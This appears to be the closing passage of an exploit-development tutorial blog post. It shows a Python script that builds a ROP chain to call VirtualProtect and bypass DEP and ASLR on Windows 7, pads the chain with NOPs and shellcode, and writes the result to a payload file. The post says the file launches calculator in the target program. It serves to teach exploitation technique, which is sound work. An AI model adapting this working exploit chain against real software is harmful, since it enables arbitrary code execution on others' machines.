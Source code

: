 payload += struct.pack("<I",0xfffffdff)
payload += struct.pack("<I",0x7c353c73)
payload += struct.pack("<I",0x100191c1)
payload += struct.pack("<I",0xffffffff)
payload += struct.pack("<I",0x61e0579d)
payload += struct.pack("<I",0x100186d1)
#EDX
payload += struct.pack("<I",0x7c3458e1)
payload += struct.pack("<I",0xffffffc0)
payload += struct.pack("<I",0x7c351eb1)
#ECX
payload += struct.pack("<I",0x7c369e4c)
payload += struct.pack("<I",0x7c38c777)
#EDI
payload += struct.pack("<I",0x1001946a)
payload += struct.pack("<I",0x1001946b)
#ESI
payload += struct.pack("<I",0x1002015a)
payload += struct.pack("<I",0x7c3415a2)
#EAX
payload += struct.pack("<I",0x7c348495)
payload += struct.pack("<I",0x61e9b30c)
#pushad
payload += struct.pack("<I",0x10019094) #pushad, RETN
payload += struct.pack("<I",0x100102a2) #push esp, RETN -> this will execute place the instruction to the top of the stack, to start executing the virtualprotect() function.

payload += "\x90" * 10
payload += shellcode
payload += "\x90" * (1000 - len(payload))

with open("payload.txt","wb") as file:
    file.write(payload)
    file.close()

print "[*] payload.txt is ready"


{% endhighlight %}

Running this script will create a payload.txt file and when you upload it to the program, it will execute calculator. 

{:refdef: style="text-align: center;"}
![PLIST-FILE_3]({{site.url}}/blog/img/windows_exploit_dev_1/windows_exp13.png)
{: refdef}

{:refdef: style="text-align: center;"}
![PLIST-FILE_3]({{site.url}}/blog/img/windows_exploit_dev_1/windows_exp14.png){:height="300px" width="300px"}
{: refdef}

Cool! so in this post we will look on how to bypass ASLR and DEP protection in windows 7 by elevating ROP in our exploit. I hope you enjoy this post and take care.



[breaking-link]: https://court-of-testing-analysing.blogspot.com/2019/11/breaking-code-exploit-development.html
[ie-link]: https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/
[exploitdb-link]: https://www.exploit-db.com/exploits/46283